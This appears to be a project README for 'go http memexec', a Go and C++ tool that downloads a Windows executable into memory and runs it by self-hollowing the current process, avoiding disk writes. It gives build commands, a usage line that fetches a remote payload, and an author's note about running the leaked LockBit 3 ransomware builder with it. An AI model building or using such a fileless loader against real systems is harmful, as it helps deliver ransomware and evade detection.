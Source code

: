 # go http memexec

A lightweight, memory-safe Windows PE file execution tool that downloads and executes payloads without ever touching the disk.

## Features

- **Zero Disk I/O**: Downloads executables directly to memory using go net/http and never writes them to disk
- **Process Self-Hollowing**: Replaces the current process with the downloaded payload
- **Memory-Safe Execution**: Implements proper memory protection and relocation
- **Simple API**: Single command to download and execute payloads

## How It Works

go http memexec uses a sophisticated process self-hollowing technique to run executables in memory:

1. Downloads a PE file directly to memory using golang's net/http
2. Maps the PE file into memory with proper section permissions
3. Resolves imports and fixes relocations
4. Executes the payload by jumping to its entry point
5. The original process is replaced by the payload without writing any files to disk

## Usage

```bash
# Basic usage with default URL
./go-http-memexec

# Specify a custom download URL
./go-http-memexec https://example.com/payload.exe
```

## Use Cases

- Security testing and research
- Memory-resident application deployment
- Advanced Windows process manipulation research
- Fileless payload execution

## Technical Details

The project combines Go for high-level coordination with C++ for low-level Windows API interaction:

- Uses golang's net/http to stream downloads directly to memory
- Implements PE parsing, import resolution, and relocation in native code
- Properly handles TLS callbacks and memory protection
- Updates the PEB to maintain process coherence after hollowing

## Build Instructions

```bash
# Build everything at once if you trust me :)
./build-all.sh

# if you don't, manual build process
# 1. Build the C++ library
cd cpp
gcc -c selfhollow.cpp relocate.cpp -I.
ar rcs librunpe.a selfhollow.o relocate.o

# 2. Build the Go executable
go mod tidy
go build -ldflags="-s -w" -trimpath -o go-http-memexec.exe
```

## Security Considerations

This tool is designed for legitimate security research, testing, and educational purposes only. The ability to execute code directly from memory without touching disk is a powerful capability that should be used responsibly.

## Requirements

- Windows operating system
- GCC or compatible C++ compiler
- Go 1.16 or later

## Notes
- I have only tested this on Windows 10
- I have only tested with my own statically linked go binary payloads, and the old leaked lockbit3 builder (curl ran + downloaded in memory, and files haflway crypted, but microsoft defender picked it up, as it's 70/70 on VT lol)

## License

[MIT License](LICENSE)

## Disclaimer

This project is provided for educational and research purposes only. Users are responsible for ensuring compliance with all applicable laws and regulations. 
